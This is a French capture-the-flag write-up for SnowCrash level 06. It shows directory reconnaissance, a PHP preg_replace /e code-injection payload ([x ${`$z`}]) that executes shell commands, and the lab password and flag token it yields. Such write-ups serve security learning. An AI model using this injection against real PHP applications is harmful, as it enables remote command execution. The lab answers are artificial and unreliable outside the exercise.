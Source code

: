 # LEVEL 06

### Reconnaissance

Lorsqu'on se connecte au level06, avec le password viuaaale9huek52boumoomioc
On a 2 fichiers:
```
level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
```

- un binaire (level06)
- un fichier php (level06.php)

### Exploitation

En analysant le fichier php on peux voir une vulnérabilitée:

```
PREG_REPLACE_EVAL : /e --> [...]$a = preg_replace("/(\[x (.*)\])/e"[...]
```

Il nous suffit donc d'inséré un code qui poura etre évaluer:

```
level06@SnowCrash:~$ vim /tmp/exploit
// entrer ce code
[x ${`$z`}]
```

- Explication
```
[x        ]	--> code a remplacer sur le preg_replace
${}	    	--> https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex
``	   --> revient a faire un shell_exec() mais avec l'avantage ici de ne pas devoir inseré de quote ni de parenthèse.         https://stackoverflow.com/questions/3115559/exploitable-php-functions
```

```
level06@SnowCrash:~$ ./level06 /tmp/exploit getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

Et voila :)
